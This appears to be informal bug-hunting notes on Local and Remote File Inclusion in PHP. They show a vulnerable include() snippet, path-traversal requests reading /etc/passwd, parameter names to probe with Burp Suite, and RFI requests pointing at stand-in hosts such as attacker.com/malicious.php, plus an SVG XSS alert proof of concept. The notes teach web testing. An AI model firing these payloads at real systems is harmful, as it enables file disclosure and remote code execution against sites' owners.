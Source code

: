 URL:
example.com/file/?page=login.php

CODE:
<?php
$page = $_GET[‘page’];
include($page);

•	Some time, developer use another value ‘app’ and them append $variable, to in this case u have to put ../ the get out from default directory to get code execute.

example. com/file/?page=../etc/passwd

$page = $_GET[‘page’];
include('/app/'.$page); => include('/app/../etc/passwd');

Types:
1.	Local File Inclusion.
example.com/file/?page=/etc/passwd
If we give this path in url then we’ll get password file. This will be the vulnerability.

2.	Remote File Inclusion.
example.com/file/?page=https://attacker.com/malicious.php
If you provide a like, then u can execute the code from malicious.php file into the target’s website. And can get RCV this is very critical vulnerability. I.e u can execute any code remotely in targets website.

Using BURPSUITE
•	Crawl the website and check the parameters which containing similar the given bellow: like file, path or url.
o	example.com/file/?page=login.php
o	example.com/file/?page=login
o	example.com/file/?page=/app/login.php
o	example.com/file/?page= https://sub.example.com/login.php
o	It could be
o	example.com/file/?page=login.php
o	example.com/file/?file=login
o	example.com/file/?filename=/app/login.php
o	example.com/file/?path=https://sub.example.com/login.php
o	example.com/file/? document=login.php
o	example.com/file/? documenturi=/app/login.php
o	example.com/file/?url= https://sub.example.com/login.php
o	example.com/file/?uri= https://sub.example.com/login.php
•	MORE BinGoo/LFI-dork.lst at master · Hood3dRob1n/BinGoo.
•	Now
•	For
•	GET /showimage.php?file=./pictures/3.jpg HTTP/1.1
o	Content-Type: image/jpeg
	Now, edit the para and give it path /etc/passwd
o	GET /showimage.php?file=/etc/passwd HTTP/1.1
	Now here we get the errors, showing the path /hj/var/www/ 
	To travel back to the directory, use ../ to get a dir back. Or put ../../ to go 2x back in dir.
o	GET /showimage.php?file=../../etc/passwd
	Now here we got the passwd file.
o	If works so we can try to give attackers website.
o	GET /showimage.php?file=https://hacker.com/malicious.php
	Like
o	GET /showimage.php?file=https://brutelogic.com.br/poc.svg
	This link will create a poop-up.
	In that case we have to try .php file
o	https://brutelogic.com.br/poc.svg
	<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
